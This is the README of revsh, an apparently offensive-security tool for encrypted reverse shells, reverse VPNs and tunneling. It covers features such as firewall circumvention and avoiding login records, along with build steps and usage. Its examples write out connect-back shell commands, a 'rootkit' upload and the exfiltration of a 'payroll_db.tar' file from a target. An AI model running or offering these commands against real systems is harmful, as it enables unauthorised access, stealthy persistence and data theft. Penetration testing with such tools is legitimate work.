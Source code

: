 # revsh #

_revsh_ is a tool for establishing [reverse shells](http://en.wikipedia.org/wiki/Reverse_shell) with [terminal](http://en.wikipedia.org/wiki/Computer_terminal) support, reverse [VPNs](https://en.wikipedia.org/wiki/Virtual_private_network) for [advanced pivoting](https://en.wikipedia.org/wiki/Exploit_(computer_security)#Pivoting), as well as arbitrary data tunneling.

## News ##

* __2018-08-09__: New release. Mosly bug / stability fixes and better documentation on the build process with OpenSSL 1.1.0. See the _Installation_ section below for the updated build instructions.

## Overview ##

**What is a "reverse shell"?**

A reverse shell is a network connection that grants [shell](http://en.wikipedia.org/wiki/Shell_%28computing%29) access to a remote host. As opposed to other remote login tools such as [telnet](http://en.wikipedia.org/wiki/Telnet) and [ssh](http://en.wikipedia.org/wiki/Secure_Shell), a reverse shell is initiated by the remote host. This technique of connecting outbound from the remote network allows for circumvention of firewalls that are configured to block inbound connections only. 

**What is a "reverse VPN"?**

_revsh_ is capable of attaching a virtual ethernet card (tun/tap) to both ends of its crypto tunnel. These cards can then be used to forward raw IP packets or ethernet frames. When combined with an Iptables NAT rule, or bridging a real ethernet card, this allows for the operator to receive a fully routable IP address on the target machines network. This, essentially, is a full VPN that has performed a connect-back call to the operator to circumvent in-bound packet filtering and grant the operator full network access. (See ["Documentation/REVERSE_VPN.md"](https://github.com/emptymonkey/revsh/blob/master/Documentation/REVERSE_VPN.md) for more information.)

**What is a "bind shell"?**

A [bind shell](http://en.wikipedia.org/wiki/Shellcode#Remote) is a shell that is served from a normal forward network connection. _revsh_ supports both reverse and bind shells. To invoke a bind shell you can either invoke the _-b_ flag on both ends of the connection, or invoke the binary as '_bindsh_'.


**Can't I just use [netcat](http://en.wikipedia.org/wiki/Netcat)?**

There are [many techniques](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for establishing a reverse shell, but these methods don't provide terminal support. _revsh_ allows for a reverse shell whose connection is mediated by a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudoterminal), and thus allows for features such as:

 * [job control](http://en.wikipedia.org/wiki/Job_control)
 * [control character processing](http://en.wikipedia.org/wiki/Control_character) (e.g [Ctrl-C](http://en.wikipedia.org/wiki/Control-C))
 * [auto-completion](http://en.wikipedia.org/wiki/Auto-completion)
 * support for programs requiring a [controlling tty](https://github.com/emptymonkey/ctty) (e.g. vi)
 * [processing of window re-size events](http://linux.die.net/man/4/tty_ioctl)

In addition, _revsh_ also offers the following features:
 * [UTF-8](http://en.wikipedia.org/wiki/UTF-8) support.
 * Circumvents [utmp / wtmp](http://en.wikipedia.org/wiki/Utmp). (No login recorded.)
 * Processes [rc file](http://en.wikipedia.org/wiki/Run_commands) commands upon login for easy scripting.
 * [OpenSSL](https://www.openssl.org/) encryption with key based authentication baked into the binary.
 * Anonymous [Diffie-Hellman](http://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) encryption upon request.
 * Ephemeral Diffie-Hellman encryption as default. (Now with more [Perfect Forward Secrecy](http://en.wikipedia.org/wiki/Forward_secrecy)!)
 * [Cert pinning](http://en.wikipedia.org/wiki/Transport_Layer_Security#Certificate_pinning) for protection against [sinkholes](http://en.wikipedia.org/wiki/DNS_sinkhole) and [mitm](http://en.wikipedia.org/wiki/Man-in-the-middle_attack) counter-intrusion.
 * Connection timeout for remote process self-termination.
 * Randomized retry timers for non-predictable auto-reconnection.
 * Netcat style non-interactive data brokering for file transfer.
 * Proxy support: point-to-point, SOCKS 4, SOCKS 4a, and SOCKS 5. Proxys are available in both directions for complete flexibility.
 * TUN / TAP support for forwarding raw IP packets / Ethernet frames.
 * Escape sequence commands to kill non-responsive nodes, or print connection statistics.


_revsh_ is intended as a supplementary tool for a [pentester's](http://en.wikipedia.org/wiki/Pentester) toolkit that provides the full set of terminal features across an encrypted tunnel. All together in a small (~75k) easy to use binary.

**Where can I use _revsh_?**

_revsh_ was developed on x86_64 Linux. Here is a brief list of Arch / OS combinations that it has been used on:
 * x86_64 Linux
 * i686 Linux
 * amd64 FreeBSD

(If you have successfully used revsh on another platform, drop me a line and I'll add it to the list.)

## Usage ##

	empty@monkey:~$ revsh -h
	
	Control:	revsh -c [CONTROL_OPTIONS] [MUTUAL_OPTIONS] [ADDRESS[:PORT]]
	Target:		revsh     [TARGET_OPTIONS] [MUTUAL_OPTIONS] [ADDRESS[:PORT]]
	
		ADDRESS		The address of the control listener.		(Default is "0.0.0.0".)
		PORT		The port of the control listener.		(Default is "2200".)
	
	CONTROL_OPTIONS:
		-c		Run in "command and control" mode.		(Default is target mode.)
		-a		Enable Anonymous Diffie-Hellman mode.		(Default is Ephemeral Diffie-Hellman.)
		-d KEYS_DIR	Reference the keys in an alternate directory.	(Default is "~/.revsh/keys/".)
		-f RC_FILE	Reference an alternate rc file.			(Default is "~/.revsh/rc".)
		-s SHELL	Invoke SHELL as the remote shell.		(Default is "/bin/bash".)
		-F LOG_FILE	Log general use and errors to LOG_FILE.		(No default set.)
	
	TARGET_OPTIONS:
		-t SEC		Set the connection timeout to SEC seconds.	(Default is "3600".)
		-r SEC1,SEC2	Set the retry time to be SEC1 seconds, or	(Default is "600,1200".)
				to be random in the range from SEC1 to SEC2.
	
	MUTUAL_OPTIONS:
		-k		Run in keep-alive mode.
				Node will neither exit normally, nor timeout.
		-L [LHOST:]LPORT:RHOST:RPORT
				Static socket forwarding with a local listener
				at LHOST:LPORT forwarding to RHOST:RPORT.
		-R [RHOST:]RPORT:LHOST:LPORT
				Static socket forwarding with a remote listener
				at RHOST:RPORT forwarding to LHOST:LPORT.
		-D [LHOST:]LPORT
				Dynamic socket forwarding with a local listener
				at LHOST:LPORT.					(Socks 4, 4a, and 5. TCP connect only.)
		-B [RHOST:]RPORT
				Dynamic socket forwarding with a remote
				listener at LHOST:LPORT.			(Socks 4, 4a, and 5. TCP connect only.)
		-x		Disable automatic setup of proxies.		(Defaults: Proxy D2280 and tun/tap devices.)
		-b		Start in bind shell mode.			(Default is reverse shell mode.)
				The -b flag must be invoked on both ends.
		-n		Non-interactive netcat style data broker.	(Default is interactive w/remote tty.)
				No tty. Useful for copying files.
		-v		Verbose. -vv and -vvv increase verbosity.
		-V		Print the program and protocol versions.
		-h		Print this help.
		-e		Print out some usage examples.

## Installation ##

First, you will need to build OpenSSL from source. (See NOTE below.)

	git clone https://github.com/openssl/openssl.git
	cd openssl/
	./config no-shared -static	# These options are needed to build static applications against OpenSSL.
	make && make test	# We skip "make install" so we don't conflict with your systems default OpenSSL. We will build _revsh_ against the OpenSSL we just compiled in this tree.
	cd ..

Now build revsh.

	git clone https://github.com/emptymonkey/revsh.git
	cd revsh
	vi config.h        # Set up new defaults that fit your situation.
	vi Makefile        # Check that the selected build environment is the one you want. (It probably already is by default.)
	make               # This *can* take a very long time, though it usually doesn't.
	make install
	vi ~/.revsh/rc     # Add your favorite startup commands to really customize the feel of your remote shell.
	revsh -h

NOTE: With the release of OpenSSL 1.1.0, OpenSSL needs to be built from source for use in a statically linked binary. Building a statically linked binary against the OpenSSL libraries that ship with most Linux distros (including Kali) will *not* work. (If it builds at all, it will SEGFAULT.)

## Examples ##

Control host example IP: 192.168.0.42
<br>
Target host example IP:  192.168.0.66

	Interactive example on default port '2200':
		control:	revsh -c
		target:		revsh 192.168.0.42
	
	Interactive example on non-standard port '443':
		control:	revsh -c 192.168.0.42:443
		target:		revsh 192.168.0.42:443
	
	Bindshell example:
		target:		revsh -b
		control:	revsh -c -b 192.168.0.66
	
	Non-interactive file upload example:
		control:	cat ~/bin/rootkit | revsh -c -n
		target:		revsh 192.168.0.42 > ./totally_not_a_rootkit
	
	Non-interactive file download example:
		control:	revsh -c -n >payroll_db.tar
		target:		cat payroll_db.tar | revsh 192.168.0.42
	
	Non-interactive file download example across existing tunnel:
		control:	revsh -c -n 127.0.0.1:2291 >payroll_db.tar
		target:		cat payroll_db.tar | revsh 127.0.0.1:2290

